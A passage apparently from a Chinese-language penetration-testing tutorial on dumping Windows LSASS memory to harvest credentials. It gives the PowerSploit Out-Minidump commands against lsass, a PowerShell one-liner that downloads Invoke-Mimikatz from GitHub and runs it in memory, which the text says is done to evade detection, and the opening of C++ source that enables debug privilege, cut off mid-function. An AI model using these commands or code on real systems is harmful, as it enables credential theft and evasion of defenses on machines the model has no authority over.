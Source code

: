 使用PowerSploit 的Out-MiniDump模块，PowerSploit是一个基于 Powershell
的渗透工具包，可以选择创建进程的完整内存转储。工具连接：https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Out-
Minidump.ps1

`Import-Module Out-MiniDump` 导入

`Get-Process lsass | Out-Minidump` 执行

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210904104037.png)

  

解密

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210904104038.png)

### 使用ps版mimikatz  

工具地址：https://github.com/fir3d0g/mimidogz

在执行powershell脚本的时候，常常采用

powershell "IEX (New-Object Net.WebClient).DownloadString
('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-
Mimikatz.ps1');Invoke-Mimikatz"

远程加载的方式，达到文件不落地来更好的规避检测的目的，但是如果目标机器网络环境不允许的话，那就直接把ps1上传到目标机器来运行。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210904104039.png)

## 应用程序  

    
    
    #include <windows.h>  
    #include <DbgHelp.h>  
    #include <iostream>  
    #include <TlHelp32.h>  
      
    #pragma comment ( lib, "dbghelp.lib" )  
      
    using namespace std;  
      
      
    #define INFO_BUFFER_SIZE 32767  
      
    std::wstring s2ws(const std::string& s)  
    {  
        int len;  
        int slength = (int)s.length() + 1;  
        len = MultiByteToWideChar(CP_ACP, 0, s.c_str(), slength, 0, 0);  
        wchar_t* buf = new wchar_t[len];  
        MultiByteToWideChar(CP_ACP, 0, s.c_str(), slength, buf, len);  
        std::wstring r(buf);  
        delete[] buf;  
        return r;  
    }  
    // 提升权限为 debug  
    bool EnableDebugPrivilege()  
    {  
        HANDLE hToken;  
        LUID sedebugnameValue;  
        TOKEN_PRIVILEGES tkp;  
      
